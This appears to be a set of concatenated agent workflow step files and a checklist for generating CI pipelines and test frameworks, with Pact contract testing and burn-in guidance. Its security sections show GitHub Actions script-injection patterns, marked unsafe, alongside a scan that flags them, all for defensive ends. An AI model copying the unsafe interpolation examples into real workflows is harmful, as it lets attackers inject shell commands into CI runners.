## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 0. Resolve Execution Mode (User Override First)

```javascript
const orchestrationContext = {
  config: {
    execution_mode: config.tea_execution_mode || 'auto', // "auto" | "subagent" | "agent-team" | "sequential"
    capability_probe: config.tea_capability_probe !== false, // true by default
  },
  timestamp: new Date().toISOString().replace(/[:.]/g, '-'),
};

const normalizeUserExecutionMode = (mode) => {
  if (typeof mode !== 'string') return null;
  const normalized = mode.trim().toLowerCase().replace(/[-_]/g, ' ').replace(/\s+/g, ' ');

  if (normalized === 'auto') return 'auto';
  if (normalized === 'sequential') return 'sequential';
  if (normalized === 'subagent' || normalized === 'sub agent' || normalized === 'subagents' || normalized === 'sub agents') {
    return 'subagent';
  }
  if (normalized === 'agent team' || normalized === 'agent teams' || normalized === 'agentteam') {
    return 'agent-team';
  }

  return null;
};

const normalizeConfigExecutionMode = (mode) => {
  if (mode === 'subagent') return 'subagent';
  if (mode === 'auto' || mode === 'sequential' || mode === 'subagent' || mode === 'agent-team') {
    return mode;
  }
  return null;
};

// Explicit user instruction in the active run takes priority over config.
const explicitModeFromUser = normalizeUserExecutionMode(runtime.getExplicitExecutionModeHint?.() || null);

const requestedMode = explicitModeFromUser || normalizeConfigExecutionMode(orchestrationContext.config.execution_mode) || 'auto';
const probeEnabled = orchestrationContext.config.capability_probe;

const supports = { subagent: false, agentTeam: false };
if (probeEnabled) {
  supports.subagent = runtime.canLaunchSubagents?.() === true;
  supports.agentTeam = runtime.canLaunchAgentTeams?.() === true;
}

let resolvedMode = requestedMode;
if (requestedMode === 'auto') {
  if (supports.agentTeam) resolvedMode = 'agent-team';
  else if (supports.subagent) resolvedMode = 'subagent';
  else resolvedMode = 'sequential';
} else if (probeEnabled && requestedMode === 'agent-team' && !supports.agentTeam) {
  resolvedMode = supports.subagent ? 'subagent' : 'sequential';
} else if (probeEnabled && requestedMode === 'subagent' && !supports.subagent) {
  resolvedMode = 'sequential';
}
```

Resolution precedence:

1. Explicit user request in this run (`agent team` => `agent-team`; `subagent` => `subagent`; `sequential`; `auto`)
2. `tea_execution_mode` from config
3. Runtime capability fallback (when probing enabled)

## 1. Resolve Output Path and Select Template

Determine the pipeline output file path based on the detected `ci_platform`:

| CI Platform      | Output Path                                 | Template File                                   |
| ---------------- | ------------------------------------------- | ----------------------------------------------- |
| `github-actions` | `{project-root}/.github/workflows/test.yml` | `./github-actions-template.yaml`                |
| `gitlab-ci`      | `{project-root}/.gitlab-ci.yml`             | `./gitlab-ci-template.yaml`                     |
| `jenkins`        | `{project-root}/Jenkinsfile`                | `./jenkins-pipeline-template.groovy`            |
| `azure-devops`   | `{project-root}/azure-pipelines.yml`        | `./azure-pipelines-template.yaml`               |
| `harness`        | `{project-root}/.harness/pipeline.yaml`     | `./harness-pipeline-template.yaml`              |
| `circle-ci`      | `{project-root}/.circleci/config.yml`       | _(no template; generate from first principles)_ |

Use templates from `./` when available. Adapt the template to the project's `test_stack_type` and `test_framework`.

---

## Security: Script Injection Prevention

> **CRITICAL:** Treat `${{ inputs.* }}` and the entire `${{ github.event.* }}` namespace as unsafe by default. ALWAYS route them through `env:` intermediaries and reference as double-quoted `"$ENV_VAR"` in `run:` blocks. NEVER interpolate them directly.

When the generated pipeline is extended into reusable workflows (`on: workflow_call`), manual dispatch (`on: workflow_dispatch`), or composite actions, these values become user-controllable and can inject arbitrary shell commands.

**Two rules for generated `run:` blocks:**

1. **No direct interpolation** — pass unsafe contexts through `env:`, reference as `"$ENV_VAR"`
2. **Inputs must be DATA, not COMMANDS** — never accept command-shaped inputs (e.g., `inputs.install-command`) that get executed as shell code. Even through `env:`, running `$CMD` where CMD comes from an input is still command injection. Use fixed commands and pass inputs only as arguments.

```yaml
# ✅ SAFE — input is DATA interpolated into a fixed command
- name: Run tests
  env:
    TEST_GREP: ${{ inputs.test-grep }}
  run: |
    # Security: inputs passed through env: to prevent script injection
    npx playwright test --grep "$TEST_GREP"

# ❌ NEVER — direct GitHub expression injection
- name: Run tests
  run: |
    npx playwright test --grep "${{ inputs.test-grep }}"

# ❌ NEVER — executing input-derived env var as a command
- name: Install
  env:
    CMD: ${{ inputs.install-command }}
  run: $CMD
```

Include a `# Security: inputs passed through env: to prevent script injection` comment in generated YAML wherever this pattern is applied.

**Safe contexts** (do NOT need `env:` intermediaries): `${{ steps.*.outputs.* }}`, `${{ matrix.* }}`, `${{ runner.os }}`, `${{ github.sha }}`, `${{ github.ref }}`, `${{ secrets.* }}`, `${{ env.* }}`.

---

## 2. Pipeline Stages

Include stages:

- lint
- test (parallel shards)
- contract-test (if `tea_use_pactjs_utils` enabled)
- burn-in (flaky detection)
- report (aggregate + publish)

---

## 3. Test Execution

- Parallel sharding enabled
- CI retries configured
- Capture artifacts (HTML report, JUnit XML, traces/videos on failure)
- Cache dependencies (language-appropriate: node_modules, .venv, .m2, go module cache, NuGet, bundler)

Write the selected pipeline configuration to the resolved output path from step 1. Adjust test commands based on `test_stack_type` and `test_framework`:

- **Frontend/Fullstack**: Include browser install, E2E/component test commands, Playwright/Cypress artifacts
- **Backend (Node.js)**: Use `npm test` or framework-specific commands (`vitest`, `jest`), skip browser install
- **Backend (Python)**: Use `pytest` with coverage (`pytest --cov`), install via `pip install -r requirements.txt` or `poetry install`
- **Backend (Java/Kotlin)**: Use `mvn test` or `gradle test`, cache `.m2/repository` or `.gradle/caches`
- **Backend (Go)**: Use `go test ./...` with coverage (`-coverprofile`), cache Go modules
- **Backend (C#/.NET)**: Use `dotnet test` with coverage, restore NuGet packages
- **Backend (Ruby)**: Use `bundle exec rspec` with coverage, cache `vendor/bundle`

### Contract Testing Pipeline (if `tea_use_pactjs_utils` enabled)

**If `tea_use_pactjs_utils` is enabled**, use `{knowledgeIndex}` to load:

- `pactjs-utils-provider-verifier.md` — `buildVerifierOptions`, broker config, and breaking change patterns for CI provider verification
- `pactjs-utils-request-filter.md` — `createRequestFilter` auth injection patterns for CI pipeline auth setup

When `tea_use_pactjs_utils` is enabled, add a `contract-test` stage after `test`:

**Required env block** (add to the generated pipeline):

```yaml
env:
  PACT_BROKER_BASE_URL: ${{ secrets.PACT_BROKER_BASE_URL }}
  PACT_BROKER_TOKEN: ${{ secrets.PACT_BROKER_TOKEN }}
  GITHUB_SHA: ${{ github.sha }} # auto-set by GitHub Actions
  GITHUB_BRANCH: ${{ github.head_ref || github.ref_name }} # NOT auto-set — must be defined explicitly
```

> **Note:** `GITHUB_SHA` is auto-set by GitHub Actions, but `GITHUB_BRANCH` is **not** — it must be derived from `github.head_ref` (for PRs) or `github.ref_name` (for pushes). The pactjs-utils library reads both from `process.env`.

1. **Consumer test + publish**: Run consumer contract tests, then publish pacts to broker
   - `npm run test:pact:consumer`
   - `npm run publish:pact`
   - Only publish on PR and main branch pushes

2. **Provider verification**: Run provider verification against published pacts
   - `npm run test:pact:provider:remote:contract`
   - `buildVerifierOptions` auto-reads `PACT_BROKER_BASE_URL`, `PACT_BROKER_TOKEN`, `GITHUB_SHA`, `GITHUB_BRANCH`
   - Verification results published to broker when `CI=true`

3. **Can-I-Deploy gate**: Block deployment if contracts are incompatible
   - `npm run can:i:deploy:provider`
   - Ensure the script adds `--retry-while-unknown 6 --retry-interval 10` for async verification

4. **Webhook job**: Add `repository_dispatch` trigger for `pact_changed` event
   - Provider verification runs when consumers publish new pacts
   - Ensures compatibility is checked on both consumer and provider changes

5. **Breaking change handling**: When `PACT_BREAKING_CHANGE=true` env var is set:
   - Provider test passes `includeMainAndDeployed: false` to `buildVerifierOptions` — verifies only matching branch
   - Coordinate with consumer team before removing the flag

6. **Record deployment**: After successful deployment, record version in broker
   - `npm run record:provider:deployment --env=production`

Required CI secrets: `PACT_BROKER_BASE_URL`, `PACT_BROKER_TOKEN`

**If `tea_pact_mcp` is `"mcp"`:** Reference the SmartBear MCP `Can I Deploy` and `Matrix` tools for pipeline guidance in `pact-mcp.md`.

---

### 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-02-generate-pipeline']
  lastStep: 'step-02-generate-pipeline'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-02-generate-pipeline'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-02-generate-pipeline'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

### 5. Orchestration Notes for This Step

For this step, treat these work units as parallelizable when `resolvedMode` is `agent-team` or `subagent`:

- Worker A: resolve platform path/template and produce base pipeline skeleton (section 1)
- Worker B: construct stage definitions and test execution blocks (sections 2-3)
- Worker C: contract-testing block (only when `tea_use_pactjs_utils` is true)

If `resolvedMode` is `sequential`, execute sections 1→4 in order.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-ci/steps-c/step-03-configure-quality-gates.md`
```markdown
---
name: 'step-03-configure-quality-gates'
description: 'Configure burn-in, quality gates, and notifications'
nextStepFile: './step-04-validate-and-summary.md'
knowledgeIndex: '{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv'
outputFile: '{test_artifacts}/ci-pipeline-progress.md'
---

# Step 3: Quality Gates & Notifications

## STEP GOAL

Configure burn-in loops, quality thresholds, and notification hooks.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Burn-In Configuration

Use `{knowledgeIndex}` to load `ci-burn-in.md` guidance:

- Run N-iteration burn-in for flaky detection
- Gate promotion based on burn-in stability

**Stack-conditional burn-in:**

- **Frontend or Fullstack** (`test_stack_type` is `frontend` or `fullstack`): Enable burn-in by default. Burn-in targets UI flakiness (race conditions, selector instability, timing issues).
- **Backend only** (`test_stack_type` is `backend`): Skip burn-in by default. Backend tests (unit, integration, API) are deterministic and rarely exhibit UI-related flakiness. If the user explicitly requests burn-in for backend, honor that override.

**Security: Script injection prevention for reusable burn-in workflows:**

When burn-in is extracted into a reusable workflow (`on: workflow_call`), all `${{ inputs.* }}` values MUST be passed through `env:` intermediaries and referenced as quoted `"$ENV_VAR"`. Never interpolate them directly.

**Inputs must be DATA, not COMMANDS.** Do not accept command-shaped inputs (e.g., `inputs.install-command`, `inputs.test-command`) that get executed as shell code — even through `env:`, running `$CMD` is still command injection. Use fixed commands (e.g., `npm ci`, `npx playwright test`) and pass inputs only as data arguments.

```yaml
# ✅ SAFE — fixed commands with data-only inputs
- name: Install dependencies
  run: npm ci
- name: Run burn-in loop
  env:
    TEST_GREP: ${{ inputs.test-grep }}
    BURN_IN_COUNT: ${{ inputs.burn-in-count }}
    BASE_REF: ${{ inputs.base-ref }}
  run: |
    # Security: inputs passed through env: to prevent script injection
    for i in $(seq 1 "$BURN_IN_COUNT"); do
      echo "Burn-in iteration $i/$BURN_IN_COUNT"
      npx playwright test --grep "$TEST_GREP" || exit 1
    done
```

---

## 2. Quality Gates

Define:

- Minimum pass rates (P0 = 100%, P1 ≥ 95%)
- Fail CI on critical test failures
- Optional: require traceability or nfr-assess output before release

**Contract testing gate** (if `tea_use_pactjs_utils` is enabled):

Use `{knowledgeIndex}` to load:

- `pactjs-utils-provider-verifier.md` — `buildVerifierOptions`, broker config, and breaking change patterns for provider verification gates
- `pactjs-utils-request-filter.md` — `createRequestFilter` auth injection patterns for CI pipeline auth setup

- **can-i-deploy must pass** before any deployment to staging or production
- Block the deployment pipeline if contract verification fails
- Treat consumer pact publishing failures as CI failures (contracts must stay up-to-date)
- Provider verification must pass for all consumer pacts before merge

---

## 3. Notifications

Configure:

- Failure notifications (Slack/email)
- Artifact links

---

### 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-03-configure-quality-gates']
  lastStep: 'step-03-configure-quality-gates'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-03-configure-quality-gates'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-03-configure-quality-gates'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-ci/steps-c/step-04-validate-and-summary.md`
```markdown
---
name: 'step-04-validate-and-summary'
description: 'Validate pipeline and summarize'
outputFile: '{test_artifacts}/ci-pipeline-progress.md'
---

# Step 4: Validate & Summarize

## STEP GOAL

Validate CI configuration and report completion details.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Validation

Validate against `checklist.md`:

- Config file created
- Stages and sharding configured
- Burn-in and artifacts enabled
- Secrets/variables documented

Fix gaps before completion.

---

## 2. Completion Summary

Report:

- CI platform and config path
- Key stages enabled
- Artifacts and notifications
- Next steps (set secrets, run pipeline)

---

### 3. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-04-validate-and-summary']
  lastStep: 'step-04-validate-and-summary'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-04-validate-and-summary'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-04-validate-and-summary'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-ci/steps-e/step-01-assess.md`
```markdown
---
name: 'step-01-assess'
description: 'Load an existing output for editing'
nextStepFile: './step-02-apply-edit.md'
---

# Step 1: Assess Edit Target

## STEP GOAL:

Identify which output should be edited and load it.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Ask the user which output file to edit
- 🚫 Do not edit until target is confirmed

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: existing outputs
- Focus: select edit target
- Limits: no edits yet

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Identify Target

Ask the user to provide the output file path or select from known outputs.

### 2. Load Target

Read the provided output file in full.

### 3. Confirm

Confirm the target and proceed to edit.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Target identified and loaded

### ❌ SYSTEM FAILURE:

- Proceeding without a confirmed target
```

## File: `src/workflows/testarch/bmad-testarch-ci/steps-e/step-02-apply-edit.md`
```markdown
---
name: 'step-02-apply-edit'
description: 'Apply edits to the selected output'
---

# Step 2: Apply Edits

## STEP GOAL:

Apply the requested edits to the selected output and confirm changes.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Only apply edits explicitly requested by the user

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: selected output and user changes
- Focus: apply edits only

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Confirm Requested Changes

Restate what will be changed and confirm.

### 2. Apply Changes

Update the output file accordingly.

### 3. Report

Summarize the edits applied.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Changes applied and confirmed

### ❌ SYSTEM FAILURE:

- Unconfirmed edits or missing update
```

## File: `src/workflows/testarch/bmad-testarch-ci/steps-v/step-01-validate.md`
```markdown
---
name: 'step-01-validate'
description: 'Validate workflow outputs against checklist'
outputFile: '{test_artifacts}/ci-validation-report.md'
validationChecklist: '../checklist.md'
---

# Step 1: Validate Outputs

## STEP GOAL:

Validate outputs using the workflow checklist and record findings.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Validate against `{validationChecklist}`
- 🚫 Do not skip checks

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Write findings to `{outputFile}`

## CONTEXT BOUNDARIES:

- Available context: workflow outputs and checklist
- Focus: validation only
- Limits: do not modify outputs in this step

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Checklist

Read `{validationChecklist}` and list all criteria.

### 2. Validate Outputs

Evaluate outputs against each checklist item.

### 2a. Script Injection Scan

Scan all generated YAML workflow files for unsafe interpolation patterns inside `run:` blocks.

**Unsafe patterns to flag (FAIL):**

- `${{ inputs.* }}` — all workflow inputs are user-controllable
- `${{ github.event.* }}` — treat the entire event namespace as unsafe by default (includes PR titles, issue bodies, comment bodies, label names, etc.)
- `${{ github.head_ref }}` — PR source branch name (user-controlled)

**Detection method:** For each `run:` block in generated YAML, check if any of the above expressions appears in the run script body. If found, flag as **FAIL** with the exact line and recommend converting to the safe `env:` intermediary pattern (pass through `env:`, reference as double-quoted `"$ENV_VAR"`).

**Safe patterns to ignore** (exempt from flagging): `${{ steps.*.outputs.* }}`, `${{ matrix.* }}`, `${{ runner.os }}`, `${{ github.sha }}`, `${{ github.ref }}`, `${{ secrets.* }}`, `${{ env.* }}` — these are safe from GitHub expression injection when used in `run:` blocks.

### 3. Write Report

Write a validation report to `{outputFile}` with PASS/WARN/FAIL per section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Validation report written
- All checklist items evaluated

### ❌ SYSTEM FAILURE:

- Skipped checklist items
- No report produced
```

## File: `src/workflows/testarch/bmad-testarch-framework/SKILL.md`
```markdown
---
name: bmad-testarch-framework
description: 'Initialize test framework with Playwright or Cypress. Use when the user says "lets setup test framework" or "I want to initialize testing framework"'
---

Follow the instructions in [workflow.md](../bmad_repo/workflow.md).
```

## File: `src/workflows/testarch/bmad-testarch-framework/bmad-skill-manifest.yaml`
```yaml
type: skill
```

## File: `src/workflows/testarch/bmad-testarch-framework/checklist.md`
```markdown
# Test Framework Setup - Validation Checklist

This checklist ensures the framework workflow completes successfully and all deliverables meet quality standards.

---

## Prerequisites

Before starting the workflow:

- [ ] Project root contains a valid project manifest (`package.json`, `pyproject.toml`, `pom.xml`, `build.gradle`, `go.mod`, `*.csproj`, `Gemfile`, or `Cargo.toml`)
- [ ] No existing test framework detected that conflicts with the target setup
- [ ] Project type identifiable (React, Vue, Angular, Next.js, Node, Python, Java, Go, .NET, Ruby, Rust, etc.)
- [ ] Bundler identifiable (Vite, Webpack, Rollup, esbuild) or not applicable (backend projects)
- [ ] User has write permissions to create directories and files

---

## Process Steps

### Step 1: Preflight Checks

- [ ] Stack type detected (`frontend`, `backend`, or `fullstack`)
- [ ] Project manifest successfully read and parsed (`package.json`, `pyproject.toml`, `pom.xml`, `go.mod`, etc.)
- [ ] Project type extracted correctly
- [ ] Bundler identified (or marked as N/A for backend projects)
- [ ] No framework conflicts detected
- [ ] Architecture documents located (if available)

### Step 2: Framework Selection

- [ ] Framework auto-detection logic executed
- [ ] Framework choice justified (Playwright vs Cypress for frontend; pytest/JUnit/Go test/xUnit/RSpec for backend)
- [ ] Framework preference respected (if explicitly set via `config.test_framework`)
- [ ] User notified of framework selection and rationale

### Step 3: Directory Structure

- [ ] `tests/` root directory created
- [ ] `tests/e2e/` directory created (or user's preferred structure)
- [ ] `tests/support/` directory created (critical pattern)
- [ ] `tests/support/fixtures/` directory created
- [ ] `tests/support/fixtures/factories/` directory created
- [ ] `tests/support/helpers/` directory created
- [ ] `tests/support/page-objects/` directory created (if applicable)
- [ ] All directories have correct permissions

**Note**: Test organization is flexible (e2e/, api/, integration/). The **support/** folder is the key pattern.

### Step 4: Configuration Files

- [ ] Framework config file created (`playwright.config.ts` or `cypress.config.ts`)
- [ ] Config file uses TypeScript (if `use_typescript: true`)
- [ ] Timeouts configured correctly (action: 15s, navigation: 30s, test: 60s)
- [ ] Base URL configured with environment variable fallback
- [ ] Trace/screenshot/video set to retain-on-failure
- [ ] Multiple reporters configured (HTML + JUnit + console)
- [ ] Parallel execution enabled
- [ ] CI-specific settings configured (retries, workers)
- [ ] Config file is syntactically valid (no compilation errors)

### Step 5: Environment Configuration

- [ ] `.env.example` created in project root
- [ ] `TEST_ENV` variable defined
- [ ] `BASE_URL` variable defined with default
- [ ] `API_URL` variable defined (if applicable)
- [ ] Authentication variables defined (if applicable)
- [ ] Feature flag variables defined (if applicable)
- [ ] `.nvmrc` created with appropriate Node version

### Step 6: Fixture Architecture

- [ ] `tests/support/fixtures/index.ts` created
- [ ] Base fixture extended from Playwright/Cypress
- [ ] Type definitions for fixtures created
- [ ] mergeTests pattern implemented (if multiple fixtures)
- [ ] Auto-cleanup logic included in fixtures
- [ ] Fixture architecture follows knowledge base patterns

### Step 7: Data Factories

- [ ] At least one factory created (e.g., UserFactory)
- [ ] Factories use @faker-js/faker for realistic data
- [ ] Factories track created entities (for cleanup)
- [ ] Factories implement `cleanup()` method
- [ ] Factories integrate with fixtures
- [ ] Factories follow knowledge base patterns

### Step 8: Sample Tests

- [ ] Example test file created (`tests/e2e/example.spec.ts`)
- [ ] Test uses fixture architecture
- [ ] Test demonstrates data factory usage
- [ ] Test uses proper selector strategy (data-testid)
- [ ] Test follows Given-When-Then structure
- [ ] Test includes proper assertions
- [ ] Network interception demonstrated (if applicable)

### Step 9: Helper Utilities

- [ ] API helper created (if API testing needed)
- [ ] Network helper created (if network mocking needed)
- [ ] Auth helper created (if authentication needed)
- [ ] Helpers follow functional patterns
- [ ] Helpers have proper error handling

### Step 10: Documentation

- [ ] `tests/README.md` created
- [ ] Setup instructions included
- [ ] Running tests section included
- [ ] Architecture overview section included
- [ ] Best practices section included
- [ ] CI integration section included
- [ ] Knowledge base references included
- [ ] Troubleshooting section included

### Step 11: Build & Test Script Updates

- [ ] Minimal test script added to appropriate config (`package.json` for frontend, `Makefile`/`pyproject.toml`/`build.gradle` for backend)
- [ ] Test framework dependency added (if not already present)
- [ ] Type definitions added (if TypeScript)
- [ ] Users can extend with additional scripts as needed

---

## Output Validation

### Configuration Validation

- [ ] Config file loads without errors
- [ ] Config file passes linting (if linter configured)
- [ ] Config file uses correct syntax for chosen framework
- [ ] All paths in config resolve correctly
- [ ] Reporter output directories exist or are created on test run

### Test Execution Validation

- [ ] Sample test runs successfully
- [ ] Test execution produces expected output (pass/fail)
- [ ] Test artifacts generated correctly (traces, screenshots, videos)
- [ ] Test report generated successfully
- [ ] No console errors or warnings during test run

### Directory Structure Validation

- [ ] All required directories exist
- [ ] Directory structure matches framework conventions
- [ ] No duplicate or conflicting directories
- [ ] Directories accessible with correct permissions

### File Integrity Validation

- [ ] All generated files are syntactically correct
- [ ] No placeholder text left in files (e.g., "TODO", "FIXME")
- [ ] All imports resolve correctly
- [ ] No hardcoded credentials or secrets in files
- [ ] All file paths use correct separators for OS

---

## Quality Checks

### Code Quality

- [ ] Generated code follows project coding standards
- [ ] TypeScript types are complete and accurate (no `any` unless necessary)
- [ ] No unused imports or variables
- [ ] Consistent code formatting (matches project style)
- [ ] No linting errors in generated files

### Best Practices Compliance

- [ ] Fixture architecture follows pure function → fixture → mergeTests pattern
- [ ] Data factories implement auto-cleanup
- [ ] Network interception occurs before navigation
- [ ] Selectors use data-testid strategy
- [ ] Artifacts only captured on failure
- [ ] Tests follow Given-When-Then structure
- [ ] No hard-coded waits or sleeps

### Knowledge Base Alignment

- [ ] Fixture pattern matches `fixture-architecture.md`
- [ ] Data factories match `data-factories.md`
- [ ] Network handling matches `network-first.md`
- [ ] Config follows `playwright-config.md` or `test-config.md`
- [ ] Test quality matches `test-quality.md`

### Pact Consumer CDC Alignment (when `tea_use_pactjs_utils` enabled)

- [ ] `vitest.config.pact.ts` is minimal (no pool/coverage/setup copied from unit config)
- [ ] Script names match pactjs-utils (`test:pact:consumer`, `publish:pact`, `can:i:deploy:consumer`, `record:consumer:deployment`)
- [ ] Scripts source `env-setup.sh` inline in package.json
- [ ] Shell scripts use `pact-broker` not `npx pact-broker`
- [ ] Shell scripts use `PACTICIPANT` env var pattern (not hardcoded service names)
- [ ] `can-i-deploy.sh` has `--retry-while-unknown=10 --retry-interval=30`
- [ ] `record-deployment.sh` has branch guard (only records on main/master)
- [ ] `env-setup.sh` uses `set -eu`; broker scripts use `set -euo pipefail` — each with explanatory comment
- [ ] CI workflow named `contract-test-consumer.yml`
- [ ] CI has workflow-level env block (not per-step)
- [ ] CI has `detect-breaking-change` step before install
- [ ] CI step numbering skips (3) — webhook-triggered provider verification
- [ ] CI can-i-deploy has `PACT_BREAKING_CHANGE != 'true'` condition
- [ ] CI has NO upload-artifact step (broker is source of truth)
- [ ] `.github/actions/detect-breaking-change/action.yml` exists
- [ ] Consumer tests use `.pacttest.ts` extension
- [ ] Consumer tests use PactV4 `addInteraction()` builder (not PactV3 fluent API)
- [ ] Consumer tests call REAL consumer code (actual API client functions), NOT raw `fetch()`
- [ ] Consumer code exposes URL injection mechanism (`setApiUrl()`, env var, or constructor param)
- [ ] Local consumer-helpers shim present if `@seontechnologies/pactjs-utils` not installed
- [ ] `.gitignore` includes `/pacts/` and `pact-logs/`

### Security Checks

- [ ] No credentials in configuration files
- [ ] .env.example contains placeholders, not real values
- [ ] Sensitive test data handled securely
- [ ] API keys and tokens use environment variables
- [ ] No secrets committed to version control

---

## Integration Points

### Status File Integration

- [ ] Framework initialization logged in Quality & Testing Progress section
- [ ] Status file updated with completion timestamp
- [ ] Status file shows framework: Playwright or Cypress

### Knowledge Base Integration

- [ ] Relevant knowledge fragments identified from tea-index.csv
- [ ] Knowledge fragments successfully loaded
- [ ] Patterns from knowledge base applied correctly
- [ ] Knowledge base references included in documentation

### Workflow Dependencies

- [ ] Can proceed to `ci` workflow after completion
- [ ] Can proceed to `test-design` workflow after completion
- [ ] Can proceed to `atdd` workflow after completion
- [ ] Framework setup compatible with downstream workflows

---

## Completion Criteria

**All of the following must be true:**

- [ ] All prerequisite checks passed
- [ ] All process steps completed without errors
- [ ] All output validations passed
- [ ] All quality checks passed
- [ ] All integration points verified
- [ ] Sample test executes successfully
- [ ] User can run the appropriate test command without errors (`npm run test:e2e`, `pytest`, `go test ./...`, etc.)
- [ ] Documentation is complete and accurate
- [ ] No critical issues or blockers identified

---

## Post-Workflow Actions

**User must complete:**

1. [ ] Copy `.env.example` to `.env`
2. [ ] Fill in environment-specific values in `.env`
3. [ ] Run `npm install` to install test dependencies
4. [ ] Run `npm run test:e2e` to verify setup
5. [ ] Review `tests/README.md` for project-specific guidance

**Recommended next workflows:**

1. [ ] Run `ci` workflow to set up CI/CD pipeline
2. [ ] Run `test-design` workflow to plan test coverage
3. [ ] Run `atdd` workflow when ready to develop stories

---

## Rollback Procedure

If workflow fails and needs to be rolled back:

1. [ ] Delete `tests/` directory
2. [ ] Remove test scripts from package.json
3. [ ] Delete `.env.example` (if created)
4. [ ] Delete `.nvmrc` (if created)
5. [ ] Delete framework config file
6. [ ] Remove test dependencies from package.json (if added)
7. [ ] Run `npm install` to clean up node_modules

---

## Notes

### Common Issues

**Issue**: Config file has TypeScript errors

- **Solution**: Ensure `@playwright/test` or `cypress` types are installed

**Issue**: Sample test fails to run

- **Solution**: Check BASE_URL in .env, ensure app is running

**Issue**: Fixture cleanup not working

- **Solution**: Verify cleanup() is called in fixture teardown

**Issue**: Network interception not working

- **Solution**: Ensure route setup occurs before page.goto()

### Framework-Specific Considerations

**Playwright:**

- Requires Node.js 18+
- Browser binaries auto-installed on first run
- Trace viewer requires running `npx playwright show-trace`

**Cypress:**

- Requires Node.js 18+
- Cypress app opens on first run
- Component testing requires additional setup

### Version Compatibility

- [ ] Node.js version matches .nvmrc
- [ ] Framework version compatible with Node.js version
- [ ] TypeScript version compatible with framework
